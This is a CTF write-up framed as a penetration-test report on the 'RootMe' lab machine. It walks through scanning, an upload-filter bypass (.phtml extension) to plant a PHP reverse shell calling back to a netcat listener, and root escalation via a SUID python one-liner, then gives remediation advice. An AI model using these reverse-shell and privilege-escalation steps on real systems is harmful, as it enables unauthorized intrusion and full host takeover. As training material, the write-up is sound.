 # RootMe CTF

## Executive summary:

This PHP application is vulnerable against remote execution using the `panel` upload script and served as an entry point to the instance with a stock `php-reverse-shell`
The host running the application was vulnerable against an escalation of priviledges attack via `/usr/bin/python`. I compromised the host entirely.

### **1. Introduction:**

The objective of this penetration test was to evaluate the vulnerabilities present in the target machine and exploit them to gain unauthorized access. The findings are outlined in the report below.
```bash

Host is up (0.062s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|*http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|*      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### **2. Methodology:**

The test was conducted systematically, starting with a basic enumeration, followed by exploitation and post-exploitation activities.

### **3. Findings:**

### **3.1 Network Enumeration:**

Using the **`nmap`** tool, a quick network scan was performed on the target machine:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 24 00:52:24 2023 -- 1 IP address (1 host up) scanned in 10.67 seconds

```

### **3.2 Remote code execution via input validation bypass**

![landing](rootme-ctf/landing.png)

Using gobuster I’ve discovered following:

```bash
┌──(root㉿kali)-[/]
└─$ gobuster dir -u http://10.10.60.63 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.60.63
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 312] [--> http://10.10.60.63/uploads/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.60.63/css/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.60.63/js/]
/panel                (Status: 301) [Size: 310] [--> http://10.10.60.63/panel/]
```

**Folders**

- `uploads`

Navigation to `uploads` shows that `apache` has enabled directory listing, which is another vulnerability as I could not execute the exploit without knowing it’s `$path` on the webserver

![Untitled](rootme-ctf/index-uploads.png)

- `/panel/`

![default portal](rootme-ctf/default-portal.png)

Let’s try to exploit this upload by uploading a reverse shell in `exploit.php` file. We first need to get a reverse shell template file from `/usr/share/webshells/php/` and copy it `cp /usr/share/webshells/php/php-reverse-shell.php exploit-php.php`

We need to edit it to match our machine. 

```bash
#find this portion of the code and change to your ip and port you intend to open
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

![error_portal](rootme-ctf/error-portal.png)

As we can see, the website has some sort of input validation in place to prevent exploiting this page, however, there are other ways to remotely execute `php` scripts in `apache` servers

![portal_bypass](rootme-ctf/portal-bypass.png)

So let’s try to rename our `exploit-php.php` to `exploit-php.phtml`

![portal-success](rootme-ctf/portal-success.png)

Now you can start listening for connections with:

```bash
──(root㉿kali)-[/]
└─# nc -lnvp 9401
listening on [any] 9401 ...
```

Navigate to `/uploads` and open your exploit file. This will lead to a reverse shell in your terminal

```bash

connect to [10.11.53.83] from (UNKNOWN) [10.10.60.63] 38468
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:59:58 up 13 min,  0 users,  load average: 0.00, 0.19, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

### **3.3 Shell persistence and privilege escalation**

First, we should look around if we can find any clues. Let’s search the filesystem

```bash
find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
```

Amazing, we’ve got another flag. 
Now, we need to find files with broken permissions to look for privilege escalation possibilities. 

```bash
$ find / -perm -4000 -type f 2>/dev/null
...
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python 
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...

```

And we can see that Python is listed among them. 

A quick Google search will get us to GTFObins. So let’s escalate python privileges:

![python escallation](rootme-ctf/python-escallation.png)

```bash

python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```

With root access, we can easily `cat /root/root.txt` flag and obtain the final flag.

### **4. Conclusion and Remmediation**

The target offered a plethora of vulnerable spots in the PHP Website, webserver configuration and also broken permission on the host. In order to fix these make sure to:

- Disable directory listing in `apache` configuration and prevent execution of .php files in the uploads folder
- re-implement your upload component and enforce strict input validation to all other php executable files
- fix broken privileges for Python and look for other vulnerabilities which could lead to privilege escalation
- Invest in a monitoring and SIEM solutions.